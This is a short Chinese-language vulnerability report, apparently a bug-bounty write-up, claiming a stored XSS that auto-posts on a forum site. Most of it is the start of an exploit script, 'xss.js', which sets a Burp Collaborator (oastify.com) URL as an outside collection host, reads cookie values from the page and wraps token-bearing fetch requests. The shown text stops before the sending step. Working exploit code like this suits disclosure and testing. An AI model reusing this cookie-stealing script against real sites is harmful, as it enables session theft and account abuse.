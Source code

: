     自动发帖成功：https://sowellwell.com/t/612f69f604c21506084dcda2/64fbd2e8bb034de073c97012
    ![swarm](/assets/uu_images/swarm.png)

### 漏洞证明
请提供截图或视频
完整利用脚本xss.js如下：

    // burpsuite collaborator url
    const api_burp = 'https://e9op59j1geov80qd4hiuakntnktch3fr4.oastify.com'

    // 获取cookie信息
    const getCookieValue = (name) => (
        document.cookie.match('(^|;)\\s*' + name + '\\s*=\\s*([^;]+)')?.pop() || ''
    )

    // 构造GET发送请求
    const myFetch = async (url, token) => {
        let data = await fetch(url, {
            method: 'GET',
            headers: {
                'Identifier': token,
            },
        })
        let res = await data.json();
        return res
    }
